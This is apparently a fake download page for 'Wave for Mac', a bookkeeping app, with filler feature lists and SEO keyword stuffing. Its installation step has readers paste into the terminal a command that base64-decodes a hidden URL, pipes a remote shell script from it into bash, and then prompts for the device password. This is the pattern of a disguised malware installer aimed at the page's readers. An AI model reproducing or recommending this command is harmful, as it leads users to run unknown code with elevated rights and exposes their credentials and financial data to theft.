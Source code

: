# Wave for Mac Download - Financial Management

![Wave Screenshot](https://i.ytimg.com/vi/9jVpV-8z5CY/maxresdefault.jpg)

---

### 🔽 Download Wave for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Wave for Mac?

Wave is a free financial management platform designed for small businesses and freelancers using macOS. This comprehensive solution combines accounting, invoicing, receipt scanning and banking features in one intuitive interface.

The software provides:
- Professional invoicing tools
- Accounting and bookkeeping
- Receipt scanning capabilities
- Payroll processing (premium)
- Financial reporting
- Business banking integration

Wave's clean interface and straightforward approach make financial management accessible to non-accountants while providing all necessary features for proper bookkeeping and tax preparation.

![Wave Dashboard](https://ntblog.net/wp-content/uploads/2022/12/waves-13-macbook.jpg)

---

## Key Features & Benefits

- 💰 Free invoicing and accounting
- 📸 Receipt scanning tool
- 📊 Financial reporting
- 🏦 Banking integration
- 📱 Mobile accessibility
- 🔒 Secure data storage

---

## 🔍 Keywords

Wave for Mac, Wave Mac Download, Wave for Mac Download, Wave Mac, Wave Download Mac, Wave Download for Mac, Wave full version, Mac Download Wave, Download Mac Wave, Download Wave Mac, Download Wave for Mac
